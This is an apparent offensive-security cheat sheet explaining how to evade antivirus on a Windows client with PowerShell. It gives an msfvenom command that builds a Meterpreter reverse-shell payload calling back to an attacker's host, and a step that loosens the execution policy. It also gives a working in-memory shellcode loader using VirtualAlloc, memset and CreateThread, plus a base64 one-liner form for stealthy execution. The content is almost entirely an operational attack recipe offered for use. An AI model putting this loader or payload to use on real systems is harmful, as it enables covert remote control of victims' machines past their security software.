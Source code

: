 # Powershell AV Bypass

In order to bypass some AV when executing code in a client machine, we can use various techniques:

## PS In-memory injection

**Step 1:** Generate rever shell payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f powershell
```

**Step 2:** Change  PS currentuser policy:

```bash
#Execute both commands in a cmd
powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope C urrentUser
```

**Step 3:** Make the script:

```bash
#CHANGE PAYLOAD
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc= $PAYLOAD;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

**Note:** We can also make this as a PS one liner script thanks to [this tool](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py). which will encode our payload to base64.

```bash
powershell.exe -E $BASE64TEXT
```
